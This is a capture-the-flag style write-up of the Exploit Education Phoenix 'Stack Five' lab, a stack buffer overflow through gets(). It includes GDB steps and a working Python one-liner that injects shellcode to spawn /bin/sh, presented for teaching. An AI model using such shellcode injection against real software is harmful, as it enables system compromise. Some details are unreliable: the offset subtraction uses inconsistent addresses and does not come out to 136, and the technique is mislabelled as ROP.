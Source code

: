 ```yaml
---
title: "Exploit Education Phoenix : Stack Five"
date: 2023-07-18T18:54:41+02:00
draft: true
tags: [Exploit Development, Reverse Engineering, Exploit Education]
summary: "Writeup on the sixth Phoenix challenge on the Exploit Education website. In this article, we will solve the Stack-Five challenge."
series: ["Exploit Education Phoenix"]
series_order: 6
---
```


{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
Before you look at the solution to the challenges, I invite you to try it for yourself. You can find all the challenges [here](https://exploit.education/phoenix/).
{{< /alert >}}

## Overview of the challenge

The aim of the Phoenix challenges is to analyse the source code of an executable in order to find and exploit a vulnerability. This first series of challenges concerns the stack. 

The first thing to do is to analyse the executable's source code. Looking for a vulnerability to exploit.

```c
char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

First of all, we notice that unlike the other challenges, this one no longer has a structure. What's more, the `complete_level` function that we need to call to complete the challenge is no longer present. As with the previous challenge, the aim of this challenge is to introduce us to the stack overflow technique: [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP). However, this time instead of executing the `complete_level` function we have to execute shellcode to open a shell.

The next thing we notice is the use of the `gets` function. When we look at the documentation for the function using the command: `man gets`, it explains how the function works. The `gets` function retrieves a string of characters from the standard input (`stdin`), each character is written to a buffer until the function detects an `EOF` or a line feed. Finally, when one of these characters is detected, it is replaced by a `\0` to end the string.

The documentation provides us with new information: this function should no longer be used, as it is sensitive to buffer overflow attacks. The function does not know how many characters it will write to the buffer and cannot be used to limit the number of characters copied. If the number of input characters is greater than the size of the buffer, the `gets` function will continue to write to the next memory location.

Now that we've identified the sensitive parts of the source code, all we have to do is abuse the vulnerability to succeed in the challenge.

## Exploiting the vulnerability

To succeed in this challenge, we need to exploit a buffer overflow vulnerability. This will allow us to change the value of the return address, which will allow us to execute shellcode to open a new shell. To exploit the ROP, we need several parameters that we will use when exploiting the buffer overflow:

* Address of buffer vulnerable to buffer overflow
* Address of the memory location containing the return address
* A x86_64 shellcode that allow us to open a new shell.

Using the buffer address and the memory location containing the return address, we can calculate an offset that will tell us how big our malicious character string should be. Next, we add the address of the start of the buffer to our string of characters in order to rewrite the value of the return address. The shellcode in the buffer will be executed and open the shell.

To find all these parameters, we'll use `GDB`.

### Offset calculation

To find the address of the buffer, it is possible to fill the buffer and inspect the stack to find the address. To inspect the stack at the right time, we can place a breakpoint just after the `gets` function is called in the `start_level` function.

```console
$ gdb stack-five
$ disass start_level
$ b *0x00000000004005a1
$ run < <(python -c "print 'A'*100")
$ x/100x $rsp
```

![Breakpoint Hit](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/568ef5f5-7fd6-4f88-92ac-a98648db16bf "Breakpoint hit to see the stack.")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/1a3b97af-617e-4b3c-9218-b74e983eb0db "Analysis of the stack")


Thanks to the stack inspection, we now know the buffer address: `0x7FFFFFFFE5E0`. In the stack we can also find the address containing the return address. To do this, we disassemble the `main` function, which calls the `start_level` function. Then we retrieve the address of the instruction just after the `start_level` function is called, since this is the address to which the CPU will return after the `ret` instruction in the `start_level` function.

```console
$ gdb stack-five
$ disass main
```

![Disassembly main](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/071dc082-bd6e-4b4c-876a-e28c82eb6c09 "Disassembly of the `main` function")

![Stack Analysis](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/80677305-d3c4-4f86-8937-822bd0742b93 "Analysis of the stack")

We now know that the address of the memory location containing the return address is: `0x7FFFFFFFE668`, since the instruction address is `0x00000000004005c7` and we find this value in the stack.

We can now calculate the offset between the start of the buffer and the location of the return address: `0x7FFFFFFFE648 - 0x7FFFFFFFE5F0 = 0x88 = 136`.

### Constructing the malicious string

We now have all we need to exploit the vulnerability. We can create our malicious string by filling our buffer with a shellcode of 57 bytes that open a shell, then 79 `NOP` to reach the return address and finally adding the address of the buffer.

{{< alert cardColor="#6a89cc" icon="circle-info" iconColor="white" textColor="white">}}
I didn't create the shellcode myself, you can find it [here](https://www.voidsecurity.in/2013/08/stdin-reopen-execve-binsh-shellcode-for.html). So credit goes to them for this shellcode..
{{< /alert >}}

To make it easier to create the string, we can use Python.

```console 
python -c "print '\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05' + '\x90'*79 + '\xE0\xE5\xFF\xFF\xFF\x7F'" | ./stack-five
```

![Exploit Result](https://github.com/adamhlt/adamhlt.github.io/assets/48086737/0354295e-54f8-4972-a22d-7694d5fdbbf2 "Result of exploiting the vulnerability.")


Finally, we can see that we've opened a new shell, so we've succeeded in our challenge.
